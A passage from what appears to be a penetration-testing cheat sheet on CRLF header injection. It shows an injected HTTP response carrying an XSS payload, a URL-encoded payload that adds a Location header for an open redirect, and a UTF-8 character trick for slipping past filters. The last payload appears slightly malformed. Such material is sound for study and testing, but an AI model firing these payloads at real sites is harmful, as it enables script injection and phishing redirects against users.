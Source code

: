 ```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

### Open Redirect

Inject a `Location` header to force a redirect for the user.

```ps1
%0d%0aLocation:%20http://myweb.com
```

## Filter Bypass

[RFC 7230](https://datatracker.ietf.org/doc/html/rfc7230#section-3.2.4) states that most HTTP header field values use only a subset of the US-ASCII charset.

> Newly defined header fields SHOULD limit their field values to US-ASCII octets.

Firefox followed the spec by stripping off any out-of-range characters when setting cookies instead of encoding them.

| UTF-8 Character | Hex | Unicode | Stripped |
| --------- | --- | ------- | -------- |
| `嘊` | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍` | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾` | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼` | `%E5%98%BC` | `\u563c` | `%3C` (<)  |

The UTF-8 character `嘊` contains `0a` in the last part of its hex format, which would be converted as `\n` by Firefox.

An example payload using UTF-8 characters would be:

```js
嘊嘍content-type:text/html嘊嘍location:嘊嘍嘊嘍嘼svg/onload=alert(document.domain()嘾
```
